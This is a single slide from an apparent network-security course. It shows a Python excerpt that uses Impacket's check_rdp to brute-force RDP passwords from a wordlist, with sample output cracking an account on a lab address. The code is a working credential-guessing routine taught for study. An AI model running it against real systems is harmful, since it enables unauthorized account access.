

Network (cont.)
Brute Forcing Network Services (cont.) : Brute forcing RDP with Impacket
The logic here is to loop through all passwords and use check_rdp provided by Impacket to check credentials
    ...
    with open(password_file, "rt") as f:
        for pwd in f:
            pwd = pwd.strip()
            logging.debug(f"Trying password: {pwd}")
            if(check_rdp(address, username, pwd, domain, opts.hashes)):
                logging.info(f"Found password: {pwd}")
                break
    logging.info(f"Brute forcing {address} finished")
Output
$ python rdp_brute.py -u joe -P passwords.txt -t 192.168.10.192
[31/12/2021 15:35:51] INFO: Found password: passw0rd
[31/12/2021 15:35:51] INFO: Brute forcing 192.168.10.192 finished
Full script can be found in the course repository at the time of this slide being presented.
96